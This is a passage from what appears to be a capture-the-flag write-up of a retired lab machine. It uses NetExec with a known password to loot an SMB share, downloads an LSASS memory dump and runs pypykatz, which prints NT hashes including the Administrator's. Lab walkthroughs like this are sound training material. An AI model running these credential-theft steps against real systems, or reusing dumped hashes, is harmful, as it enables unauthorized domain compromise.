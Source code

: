 ```bash
SPIDER_P... 10.10.10.192    445    DC01             [*] File size min:        0 B
SPIDER_P... 10.10.10.192    445    DC01             [*] File size max:        125.87 MB
```

It seems that among the files there is a **LSASS memory dump** which we can download locally:

```bash
# read output file
$ jq . /tmp/nxc_spider_plus/10.10.10.192.json
<SNIP>
    },
    "memory_analysis/lsass.zip": {
      "atime_epoch": "2020-05-28 21:25:08",
      "ctime_epoch": "2020-05-28 21:25:01",
      "mtime_epoch": "2020-05-28 21:29:24",
      "size": "39.99 MB"
    },
<SNIP>

# download file
$ nxc smb 10.10.10.192 -u audit2020 -p 'p@ssw0rd!' --share forensic --get-file memory_analysis/lsass.zip lsass.zip
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:p@ssw0rd!
SMB         10.10.10.192    445    DC01             [*] Copying "memory_analysis/lsass.zip" to "lsass.zip"
SMB         10.10.10.192    445    DC01             [+] File "memory_analysis/lsass.zip" was downloaded to "lsass.zip"
```

We can use [pypykatz](https://github.com/skelsec/pypykatz) to extract the data from the LSASS file:

```bash
# unzip the lsass dump
$ unzip lsass.zip
Archive:  lsass.zip
  inflating: lsass.DMP

# extract the data
$ pypykatz lsa minidump lsass.DMP
INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
<SNIP>
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 96<REDACTED>0d
<SNIP>
        == MSV ==
                Username: Administrator
                Domain: BLACKFIELD
                LM: NA
                NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
<SNIP>
```
